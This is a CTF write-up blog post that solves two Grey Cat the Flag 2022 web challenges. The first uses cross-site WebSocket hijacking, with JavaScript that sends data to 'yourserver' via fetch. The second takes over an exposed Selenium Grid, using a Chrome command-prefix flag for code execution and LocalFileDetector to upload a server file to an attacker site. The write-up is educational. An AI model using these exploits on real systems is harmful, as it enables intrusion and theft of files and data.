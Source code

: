 ```yaml
---
layout: post
title: Grey Cat the Flag 2022
---
```


Introduction
------

This was a CTF organised by NUS Greyhats. I competed in this CTF with [MiloTruck](https://milotruck.github.io/) and [Nyxto](https://github.com/NyxTo) as part of Team ItzyBitzySpider. I was pretty stoked for this after hearing that finals were going to take place on site. Given that our entire team having to serve NS, I was pretty satisfied with our performance. 

---

Web
------

### Quotes 

We are provided the source code for the challenge. From it, we know the following endpoints

* `/`: Serves template html file
* `/auth`: Provides some sort of authentication cookie
* `/quote`: Websocket endpoint that provides a quote
* `/share`: triggeres a bot to open a user specified URL

From the above structure, we know that we need to perform some sort of cross-site attack. Analyzing `index.html`, we see that the page is making a websocket connection at `quotes` and displaying the returned content. However, without the auth cookie only available to localhost we are unable to get the flag. 

The first part of the exploit is quite straightforward. We first need to get bot authenticated. We can do so by creating an `<iframe/>` with the `src` paramater set to `http://localhost:7070/auth`. This makes the bot visit the `/auth` endpoint getting the authentication cookie. 

```javascript
let x = document.createElement('iframe');
x.setAttribute('src', `http://localhost:7070/auth`);
document.body.appendChild(x);
```

If we host this on our server and share it with bot, it gets blocked as the application checks the following

```python
if ws.origin.startswith("http://localhost") and cookie.get('auth') == auth_token:
```

This is an insecure check any subdomain starting with localhost still works. E.g. I used `localhost.puddle.sg` 

At this stage, the bot is authenticated and can read the flag, however, we are unable to exfiltrate it without XSS or a way to bypass [Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy). 

As mentioned previously, `/quote` is a websocket endpoint. I found this to be odd as this function would've worked fine with `HTTP` as well. I suspected that the exploit had something to do with websockets. With some googling, I stumbled upon the [following](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking):

> Also known as cross-origin WebSocket hijacking. It is a Cross-Site Request Forgery (CSRF) on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

This description fits the challenge perfectly. To hijack the websocket, we just create a new Websocket to the same endpoint. From the same site above, we know this works because 

> the application will handle the session in the same context as the user session. 

Before we can hijack the websocket though, we first need to make bot initate the connection. To do so, we just change the src of the `<iframe/>` we had previously created to `/` which creates a websocket connection to `/quote`. 

```javascript
// counter to prevent x.onload() from triggering itself infinitely
var counter = 1;
x.onload = () =>{
    if (counter === 1){
        x.setAttribute('src', `http://localhost:7070/`);
        document.body.appendChild(x);        
        counter = 0;
    }
}
```

After this, we can reference the provided source for our Websocket to mimic the behavior of the original. 

```javascript
websocket = new WebSocket('ws://localhost:7070/quote')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
    websocket.send("getquote");
}
function handleReply(event) {
    fetch('http://yourserver/?'+event.data)
}
```

Combining all the above, we have our final exploit. Hosting on a server with subdomain starting with localhost and sharing the url in `/share` yields us our flag. 

```html
<html>
    <script>
        let x = document.createElement('iframe');
        x.setAttribute('src', `http://localhost:7070/auth`);
        document.body.appendChild(x);
        var counter = 1;
        x.onload = () =>{
            if (counter ===1 ){
                x.setAttribute('src', `http://localhost:7070/`);
                document.body.appendChild(x);        
                counter =0;
            }
        }
        websocket = new WebSocket('ws://localhost:7070/quote')
        websocket.onopen = start
        websocket.onmessage = handleReply
        function start(event) {
            websocket.send("getquote");
        }
        function handleReply(event) {
            fetch('http://yourserver/?'+event.data)
        }
    </script>	
</html>
```

Flag: `grey{qu0735_fr0m_7h3_w153_15_w153_qu0735_7a4c6ec974b6d8b0}`

### Selnode 

Analyzing the provided dockerfile, we see that the server is running Selenium standalone server. Additionally, the root of the folder has binary that prints the flag. To get the flag, we preassumably have to find some way to execute the binary or perhaps run `strings` on it. Either way, it sounded like we needed RCE. 

Googling around for "selenium rce", I found [this post](https://nutcrackerssecurity.github.io/selenium.html) which has a nice python script to gain rce. Looks like exactly what I needed right? 

With some minor adjustments due to desired_capabilities being deprecated, the exploit script I came up with was,

```python
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

payload='/flag' 
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument("--no-sandbox")
chrome_options.add_argument("--utility-and-browser")
chrome_options.add_argument("--utility-cmd-prefix="+payload)

driver = webdriver.Remote(
   command_executor='http://192.168.1.130:4444/wd/hub',
   options=chrome_options
)

driver.get("https://google.com")
driver.quit()
```

Ok... but what now?  
Having never used selenium I didn't really know what to expect from the execution of the script. Clicking on the `console` hyperlink in the main page, I quickly realised that my scripts were spawning new sessions. So the script is doing something. Looking back at the blog post, I realised that my payload was working but there was no way for me to view the output (I tried searching). 

When I was doing the challenge, I was dead tired and decided to sleep after failing to get RCE. With a half conscious brain, I suddenly had the idea have selenium visit my site where I would then run some js and try to read the flag binary. If we can send the binary to ourselves, we can just execute it locally and get the flag. It was only when I woke up that I realised it should be impossible to have 0-click JS reading your file system. But what if selenium can interact with the site? 

Turns out, it can. [`LocalFileDetector`](https://www.selenium.dev/documentation/webdriver/remote_webdriver/#local-file-detector) allows us to access files and we can upload them in a form. To do so, we host a simple site using the following `html` file. 

```html
<html>
    <body>
        <form method="post" enctype="multipart/form-data">
            <input id="myfile" type="file"/>
            <input id="submit" type="submit"/>
        </form>
    </body>
</html>
```

Then, we force selenium to visit our site and upload the binary. 

```python    
from selenium import webdriver
from selenium.webdriver.common.by import By

chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument("--no-sandbox")
chrome_options.add_argument("--utility-and-browser")

driver = webdriver.Remote(
   command_executor='http://challs.nusgreyhats.org:12323/wd/hub',
   options=chrome_options
)

from selenium.webdriver.remote.file_detector import LocalFileDetector

driver.file_detector = LocalFileDetector()
driver.get('http://yourserver.com')
driver.find_element(By.ID, 'myfile').send_keys('/flag')
driver.find_element(By.ID, 'submit').click()
driver.quit()
```

This would send a post request with the flag binary in the request body. Now all you need to do is download and run the file :)

Flag: `grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}`

####  Side note:
For challenges with simple payloads like this, I like to use [webhook.site](https://webhook.site). I think one lesser known feature is that you can specify the response body

![](https://i.imgur.com/Yo6PDXN.png)

This makes it super easy to spin up a remote site for CTF challenges like this. Best of all, it's completely free!!!